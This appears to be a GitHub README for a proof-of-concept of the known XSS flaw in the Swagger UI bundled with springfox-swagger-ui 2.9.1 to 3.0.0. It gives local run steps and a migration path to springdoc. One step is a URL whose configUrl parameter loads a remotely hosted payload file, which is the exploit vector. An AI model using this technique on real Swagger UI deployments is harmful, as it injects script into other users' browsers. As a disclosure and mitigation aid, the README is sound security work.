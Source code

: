 # springfox XSS PoC

## Credit and Thanks
Example application was copied from: [https://github.com/evrentan/my-swagger-ui-example](https://github.com/evrentan/my-swagger-ui-example)

All credit for code goes to: [evrentan](https://github.com/evrentan) for providing the excellent example code!

## About
Springfox is a commonly used library for JVM-based languages to easily provide JSON documentation.
Springfox includes a vulnerable version of the Swagger UI with known XSS vulnerabilities.

`io.springfox.springfox-swagger-ui` **2.9.1 to 3.0.0** are vulnerable to XSS attacks.

The affected module appears to be: [io.springfox.springfox-swagger-ui](https://mvnrepository.com/artifact/io.springfox/springfox-swagger-ui)

The vulnerable Swagger UI bundled version is shown at: [https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24](https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24)

## Running the PoC

Ensure you have JDK 11 available to properly build this.

1. Run: `mvn spring-boot:run`
2. Navigate to: http://localhost:8080/swagger-ui/index.html?configUrl=https://xss.smarpo.com/test.json

XSS Payloads are hosted at: [seanmarpo/swagger-xss-payloads](https://github.com/seanmarpo/swagger-xss-payloads)

## Mitigation / Solutions

Good news, bad news. Springfox appears to no longer be maintained, however [springdoc-openapi](https://github.com/springdoc/springdoc-openapi) is a drop-in replacement that is actively being maintained.

The migration guide to springdoc from springfox can be found at: [https://springdoc.org/#migrating-from-springfox](https://springdoc.org/#migrating-from-springfox).

## Copyright

GNU General Public License v3.0
Permissions of this strong copyleft license are conditioned on making available complete source code of licensed works and modifications, which include larger works using a licensed work, under the same license. Copyright and license notices must be preserved. Contributors provide an express grant of patent rights.
